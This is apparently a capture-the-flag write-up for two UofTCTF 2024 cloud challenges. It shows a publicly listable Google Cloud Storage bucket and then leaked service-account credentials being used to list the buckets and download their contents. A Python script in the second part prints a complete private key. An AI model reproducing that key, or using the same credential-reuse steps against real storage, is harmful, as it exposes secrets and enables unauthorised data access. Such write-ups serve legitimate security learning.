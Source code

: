 # Uoftctf-2024

# Out of the Bucket

Check out my flag website! Author: windex

https://storage.googleapis.com/out-of-the-bucket/src/index.html
-----------------------------------------------------------------------------------------------------------------------------
First, visit the website according to the given link:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/c880c8f3-55c2-45e3-ade7-5c001796523f)

I can immediately see its path, it seems to be a static website, so I tried to edit its path by deleting `index.html` and reloading but I didn't get anything back, so I continued to delete `src/index.html` then gets the document tree. Here I can see the files (index.html, antwerp.jpg, guam.jpg, style.css) exported in the initial web interface and in addition there is a file `funny.json` and a path `src\dont_show.json`

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ffd2ce42-9d07-467b-a98a-536f55d20ffe)

I access the funny.json file following its path (secret/funny.json) 

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/37aa62bd-66a2-4ca8-8272-2000989e8e52)

Looking at its content, I see it contains authentication information...hmmm I haven't used it for now. I proceed to access the path 'src/dont_show' and my browser automatically downloaded it to my computer, then I open it with Notepad.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ea1c06be-cc0f-4bd4-ba5a-52a807bd8dad)

And I finally got the flag for this challenge.


# Out of the Bucket 2

This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!
Author: windex
-------------------------------------------------------------------------------------------------------------------------------------------------
Next, for this challenge, I think I have to reuse the authentication information from the first challenge (funny.json file) that I haven't used yet.
I noticed the information fields in the file like oauth,... and I noticed that the website path had 'storage.googleapis.com', I searched for information on the internet and got a some information about 'Google Cloud Storage with credentials'
(`https://stackoverflow.com/questions/52808848/how-to-initialize-google-cloud-storage-with-credentials`, `https://stackoverflow.com/questions/49748910/python-download-entire-directory-from-google-cloud-storage`)

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/aafb5752-36d6-498e-8941-f3abd1ca2ea5)

Didn't disappoint me, I found a few articles on stackoverfow, and now I can get an accurate opinion on everything I was thinking. The value fields are as shown in the article, they correspond to the value fields in the file 'funny.json'.
My task now is to use the authentication information in the funny.json file to be able to access the file content stored on Google Cloud Storage.
Based on the information in the article on Stackoverflow, I wrote a python code file to access Google Cloud Storage.
```
from google.cloud import storage
from google.oauth2 import service_account

credentials_dict ={
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDWxpWEDNiWgMzz\nxDDF64CspqiGPxkrHfhS4/PX8BrxNjUMPAH7vYHE3KbgQsmPhbCte9opnSLdMqec\nWjll8lRZGEy73xhWd2e3tVRAf53r+pW/p6MTOsz3leUkQAscG4hmOVOpGb1AkfuE\n62NErJVZIgQCowrBdFGbPxQc/IRQJKzrCFfKOWSHLvnngr4Ui5CSr6OM33dfpD+v\nQSLkEQheYCXmHwh/Wf8b27be+RzfOp/hOyjKsJOmDvFu2+rrx24t8hCptof3BYol\nUjpaiB8Qcct/HoKOEvZ/S5rW6toQizP8t4t7urC2i70JdH+Y4Qw/AZJNuLo/5wW1\n+x8i3FIDAgMBAAECggEABaGapVC06RVNdQ1tffL+d7MS8296GHWmX34B6bqDlP7S\nhenuNLczoiwVkAcQQ9wXKs/22Lp5rIpkd1FXn0MAT9RhnAIYdZlB4JY3iaK5oEin\nXn67Dt5Ze3BfBq6ghpx43L1KDUKogfs8jgVMoANVEyDfhrYsVQWDZ5T60QZp7bP2\n0zSDSACZpFzdf1vXzOhero8ykwM3keQiCIKWYkeMGsX8oHyWr1fz7AkU+pLciV67\nek10ItJUV70n2C65FgrW2Z1TpPKlpNEm8jQLSax9Bi89HuFEw8UjTfxKKzhLFXEu\nudtAyebt/PC4HS9FLBioo3bAy8vL3o00b7+raVyJQQKBgQD3IWaD5q5s7H0r10S/\n7IUhP1TDYhbLh7pupbzDGzu9wCFCMItwTEm9nYVNToKwV+YpeyoptEHQa4CAVp21\nO4+W7mBQgYemimjTtx1bIW8qzdQ9+ltQXyFAxj6m3KcuAsAzSpcHkbP46lCL5QoT\nTS6T06Fs4xvnTKtBdPeisSgiIwKBgQDee+mp5gsk8ynnp6fx0/liuO3AZxpTYcP8\nixaXLQI6CI4jQP2+P+FWNCTmEJxMaddXNOmmTaKu25S2H0KKMiQkQPuwBqskck3J\npVTHudnUuZAZWE7YPg40MJgg5OQhMVwiqGWL76FT2bubIdNm4LQyxvDeK82XQYl8\nszeOXfJeoQKBgGQqSoXdwwbtF5Lkbr4nnJIsPCvxHvIhskPUs1yVNjKjpBdS28GJ\nej37kaMS1k+pYOWhQSakJCTY3b2m3ccuO/Xd6nXW+mdbJD/jsWdVdtxvjr4MMmSy\nGiVJ9Ozm9G/mt4ZSjkKIIN0cA8ef7uSB3QYXug8LQi0O2z7trM1pZq3nAoGAMPhD\nOSMqRsrC6XtMivzmQmWD5zqKX9oAAmE26rV8bPufFYFjmHGFDq1RhdYYIPWW8Vnz\nJ6ik6ynntKJyyeo5bEVlYJxHJTGHj5+1ZnSwzpK9dearDAu0oqYjhfH7iJbNuc8o\n8sEe2E7vbTjnyBgjcZ26PJyVlvpU4b6stshU5aECgYEA7ZESXuaNV0Er3emHiAz4\noEStvFgzMDi8dILH+PtC3J2EnguVjMy2fceQHxQKP6/DCFlNqf9KUNqJBKVGxRWP\nIM1rcoAmf0sGQ5gl1B1K8PidhOi3dHF0nkYvivuMoj7sEyr9K88y69kdpVJ3J556\nJWqkWLCz8hx+LcQPfDJu0YE=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}

credentials = service_account.Credentials.from_service_account_info(credentials_dict)
client = storage.Client( credentials=credentials) 
buckets=list(client.list_buckets())
print(buckets) # get list bucket 
bucket_flag = client.get_bucket('flag-images') #access to bucket
#bucket_flag = client.get_bucket('out-of-the-bucket')

for blob in bucket_flag.list_blobs():
	print(blob)
	filename = blob.name.replace('/', '_') 	
	blob.download_to_filename('flag/'+ filename) #download file to folder './flag'
	print("download file: {}".format(blob.name))
```
Run the code and get the following results:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ccdb769f-649f-4bf7-ad65-a31c0e0620ad)

To explain the code:

I access Google Cloud Storage through:
`credentials = service_account.Credentials.from_service_account_info(credentials_dict
client = storage.Client( credentials=credentials)`

Next, I got information about the existing buckets on Google Cloud Storage using `buckets=list(client.list_buckets())` as you can see in the code execution results, we have 2 buckets: `flag-images` and `out-of-the-bucket` in first line.

Next, I proceeded to access bucket `flag-images` because I also tried accessing bucket `out-of-the-bucket` before but didn't get anything of value.

Proceed to query the blob in the bucket. blob.name includes the entire directory structure + filename, so if you want the same file name as in the bucket, you might want to extract it first (instead of replacing `/` with `_ `)

After completing the download process, I checked the downloaded content in the 'flag' folder.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/9048ec8d-f08d-445e-a6fa-cfd384e2ccb3)

I noticed that there is an image file '256x192_xa.png' that is different from other image files.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/cd4458f2-ec5d-4dda-bb8a-8c44f3f74e72)

Finnally, I got the flag for this challenge!!!
